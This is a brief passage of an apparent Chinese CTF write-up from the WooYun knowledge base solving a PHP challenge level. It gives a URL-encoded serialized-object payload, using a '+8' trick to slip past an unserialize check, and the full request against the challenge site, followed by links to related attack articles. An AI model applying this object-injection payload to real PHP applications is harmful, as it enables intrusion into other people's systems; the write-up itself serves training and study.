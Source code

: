 ### 攻略：

[`drops.wooyun.org/papers/596`](http://drops.wooyun.org/papers/596)

[`zone.wooyun.org/content/6697`](http://zone.wooyun.org/content/6697)

### 所以：

(1) 生成利用的 data:

```
O%3A%2B8%3A"just4fun"%3A1%3A%7Bs%3A8%3A"filename"%3Bs%3A9%3A"sbztz.php"%3B%7D  (注意%2B) 
```

(2)

```
http://php4fun.sinaapp.com/c8/index.php?data=O%3A%2B8%3A"just4fun"%3A1%3A%7Bs%3A8%3A"filename"%3Bs%3A9%3A"sbztz.php"%3B%7D 
```

版权声明：未经授权禁止转载 [八折](http://drops.wooyun.org/author/八折 "由 八折 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [wechall mysql 关卡题解](http://drops.wooyun.org/papers/1321)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [Attacking MongoDB](http://drops.wooyun.org/papers/850)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [hackyou2014 CTF web 关卡通关攻略](http://drops.wooyun.org/tips/870)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)